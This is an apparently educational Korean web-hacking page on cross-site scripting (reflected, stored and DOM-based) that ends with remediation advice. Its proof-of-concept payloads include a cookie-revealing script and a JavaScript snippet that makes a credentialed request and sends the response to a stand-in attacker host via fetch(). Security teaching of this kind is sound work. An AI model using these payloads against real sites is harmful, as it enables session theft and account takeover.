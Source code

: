 ```yaml
---
title: XSS (Cross-Site Scripting)
layout: default
parent: Web Hacking
nav_order: 2.3
description: "Web hacking"
---
```


# Cross Site Scripting (XSS)

{: .no_toc }

## Table of Contents
{: .no_toc .text-delta }

1. TOC
{:toc}


XSS는 웹사이트에 악성 스크립트 `<script>` 태그나 HTML의 `on` 태그 속성을 이용해서 클라이언트 측 브라우저에서 실행되도록 하는 공격입니다.

XSS의 공격은 크게 3가지 유형으로 나뉩니다.

## Reflected XSS (반사형) 
- 악성스크립트가 포함된 URL을 Victim에게 보내는 형식으로 이루어집니다.

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> ``` 
> https://<website>?url=<script>alert("XSS")</script> 
>```

- Victim이 해당 URL을 클릭하면, 서버에서 해당 악성 스크립트를 Victim의 브라우저로 **"반사 (Reflect)"** 해서 보냅니다.
- 브라우저는 해당 스크립트를 신뢰하는 웹사이트에서 온것으로 간주하고 실행합니다.

## Stored XSS (저장형)
- 악성 스크립트를 게시판, 댓글, 포럼 등 웹 서버의 데이터베이스에 저장하는것을 의미합니다.
- 다른 사용자가 해당 페이지에 접속하면, 서버에 저장된 스크립트가 해당 사용자 브라우저에서 실행이 됩니다.
- Reflected XSS와 다르게 특정 URL을 클릭할 필요 없이 불특정 다수에게 피해를 줄 수 있습니다.

## DOM-based XSS (DOM 기반형)
- 서버를 거치지 않고 사용자 브라우저의 Document Object Model (DOM) 환경에서 공격이 이루어 집니다.
- 주로 자바스크립트를 이용해 HTML 페이지를 조작하는 방식으로 작동합니다

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> ``` 
> https://<website>/#javascript:alert("XSS") 
>```

- URL의 매개변수 값 등을 조작해 스크립트를 실행시킵니다.

{: .warning }
> 많은분들이 "Reflected XSS" 와 혼동을 하시는 분들이 많습니다. 두 종류의 차이점은 악성 스크립트가 주입되는 시점에서 찾을수 있습니다.
> 1. DOM-based XSS 공격은 네트워크에서 서버에게 별도 요청없이 URL 주소 해시에 심은 악성 스크립트가 실행이 됩니다.
> 2. Reflected XSS 공격은 악성 스크립트가 일단 서버에 전달이 되어야합니다. 

## XSS Impact 
- 사용자 권한을 탈취할 수 있습니다. (Impersonate User).
- 사용자 데이터를 읽거나 쓸수 있습니다. (Read and Write data that user is accessible).
- 사용자의 로그인 계정을 탈취할 수 있습니다. (Capture Login creds).
- 악성코드 삽입 (Inject Trojan).
- 웹사이트 UI변경 (Virtual Defacement).

## XSS Attack Chain
- Steal Cookie (쿠키를 탈취할 수 있습니다)

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> 쿠키를 팝업창에 띄우기
> ``` 
> https://<website>?url=<script>alert(document.cookie)</script> 
>```

{: .important-title }
> Proof of Concept
> {: .label .label-blue }
> 쿠키를 Burp Collaborator (Attacker 서버로 보낼때)
> ``` 
> https://<website>?url=[The script under] 
>```
> [The script under]:
>```js
> <script>
>   var xhr = new XMLHttpRequest();
>   var url = 'VICTIM URL'
>   xhr.onreadystatechange = function() {
>       if (xhr.readyState == XMLHttpRequest.DONE) {
>           fetch('https://BURPCOLLABORATOR/' + xhr.responseText)
>       }
>   }
>   xhr.open('GET', url, true);
>   xhr.withCredentials = true;
>   xhr.send(null);
> </script>
>```

- Capture Password (로그인 크레덴셜 탈취)
- Bypass CSRFToken (CSRF 토큰을 우회할 수 있습니다)

## Remediation

- **입력값 검증**: 사용자로부터 입력받는 모든 데이터에 대해 `< > " ' & javascript on` 같은 특수문자나 스크립트를 필터링 또는 이스케이핑 처리를 해야 됩니다. Whitelist 방식을 쓰는것이 가장 바람직 합니다.
- **출력 인코딩**: 서버에서 브라우저로 데이터를 보낼 때, 스크립트가 실행되지 않도록 HTML Entity로 변환해야 합니다.
- **보안 헤더 설정 (CSP)**: Content-Security-Policy (CSP) 같은 보안 정책을 사용해 어떤 스크립트를 실행할지 미리 정의합니다.